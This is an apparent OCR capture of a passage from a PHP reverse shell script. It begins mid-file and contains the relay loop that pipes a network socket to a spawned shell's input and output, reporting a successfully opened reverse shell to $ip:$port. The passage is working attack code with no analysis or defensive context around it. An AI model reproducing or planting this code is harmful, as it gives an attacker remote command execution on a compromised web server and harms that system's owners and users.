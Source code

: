 ```php
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```
